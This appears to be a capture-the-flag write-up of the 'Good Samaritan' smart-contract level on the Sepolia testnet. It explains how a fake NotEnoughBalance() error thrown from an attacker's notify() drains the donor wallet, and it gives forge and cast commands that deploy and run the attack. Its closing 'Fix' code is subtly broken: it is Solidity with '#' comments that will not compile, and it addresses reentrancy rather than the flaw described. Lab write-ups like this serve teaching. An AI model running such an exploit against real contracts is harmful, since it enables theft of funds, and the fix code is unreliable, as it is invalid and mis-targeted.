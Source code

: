 # Good Samaritan

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

[Solidity Custom Errors](https://soliditylang.org/blog/2021/04/21/custom-errors/)

## Vulnerability

1. The attacker calls `requestDonation()` on the `GoodSamaritan` contract.
2. Inside `requestDonation()`, the contract attempts to donate 10 coins to the caller by calling `wallet.donate10(msg.sender)`.
3. If the donation attempt is successful, `wallet.donate10` will internally call `coin.transfer()` to move the coins.
4. Design an attacker's contract to have a `notify()` function. When `coin.transfer()` checks if the recipient address is a contract and calls `notify()`, the attacker's `notify()` function intentionally reverts with a custom error named `NotEnoughBalance()`.
5. The custom error causes the `try-catch` block in `requestDonation()` to catch the error. Since the error matches the condition for `NotEnoughBalance()`, the `wallet.transferRemainder(msg.sender)` is executed, intending to transfer remaining tokens to the attacker.

## Attack

1. Check initial balance.

```bash
# Coin address contract: 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916
# initial wallet: 0x2579F0110118287298aE5428539FEe6Db5C55068

cast call 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916 "balances(address)(uint256)" 0x2579F0110118287298aE5428539FEe6Db5C55068 --rpc-url $ALCHEMY_RPC_URL --legacy
# 1000000 [1e6]
```

1. Deploy `GoodSamaritanAttack`.

```bash
forge script script/DeployGoodSamaritanAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x6147bE8Dba9D155875CF4cf9F771212Ef2be6aF5
```

3. Attack

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0x3e47361ae94bbb4ad798347a9d5b88b27913086c787746b390e9ae800aa366bb
```

4. Check balance after attack.

```bash
# Coin address contract: 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916
# initial wallet: 0x2579F0110118287298aE5428539FEe6Db5C55068

cast call 0x04BE262c1f2D1b2EFd7eBaaAeD584b8222661916 "balances(address)(uint256)" 0x2579F0110118287298aE5428539FEe6Db5C55068 --rpc-url $ALCHEMY_RPC_URL --legacy
# 0
```

## Fix

```bash
#Importing a reentrancy guard from OpenZeppelin's contracts library
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract GoodSamaritan is ReentrancyGuard {
    mapping(address => uint256) public pendingWithdrawals;

    # Other contract variables and functions

    function requestDonation() external nonReentrant {
        uint256 donationAmount = 10;
        # Assuming `wallet` is an instance of another contract that holds funds
        uint256 walletBalance = wallet.getBalance();

        if (walletBalance >= donationAmount) {
            # Attempt to donate 10 coins
            bool success = wallet.donate10(msg.sender);
            if (!success) {
                revert("Donation failed");
            }
        } else {
            # Instead of transferring directly, update the pending withdrawals
            pendingWithdrawals[msg.sender] += walletBalance;
            # Assuming a function that safely empties the wallet to this contract
            wallet.transferAllTo(address(this));
        }
    }

    function withdraw() public nonReentrant {
        uint256 amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds available for withdrawal");

        # Reset the pending withdrawal before transferring to prevent reentrancy
        pendingWithdrawals[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }

    # Additional functions as needed
}
```
